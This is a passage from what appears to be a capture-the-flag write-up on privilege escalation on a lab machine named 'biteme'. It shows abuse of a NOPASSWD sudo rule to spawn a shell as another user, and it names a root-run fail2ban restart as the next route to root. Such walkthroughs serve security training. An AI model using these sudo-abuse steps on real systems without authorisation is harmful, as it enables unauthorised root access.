 # Privilege Escalation

## jason to fred

**Sudo permission:**
```
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
```

In the sudo permission, **we can execute any command as root, but it requires password.**

**However, we can execute any command as user `fred` without password!** (`NOPASSWD`)

**To do so, I'll:**

- Spawn a bash shell as user `fred`:

```
jason@biteme:~$ sudo -u fred /bin/bash
fred@biteme:~$ whoami;id
fred
uid=1001(fred) gid=1001(fred) groups=1001(fred)
```

I'm `fred`!

## fred to root

**Sudo permission:**
```
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```

**User `fred` is able to run `/bin/systemctl restart fail2ban` as root without password, and we can gain root privilege from it**

> Fail2ban is an intrusion prevention software framework. Written in the Python programming language, it is designed to prevent against brute-force attacks. It is able to run on POSIX systems that have an interface to a packet-control system or firewall installed locally, such as iptables or TCP Wrapper. (Source: [Wikipedia](https://en.wikipedia.org/wiki/Fail2ban))
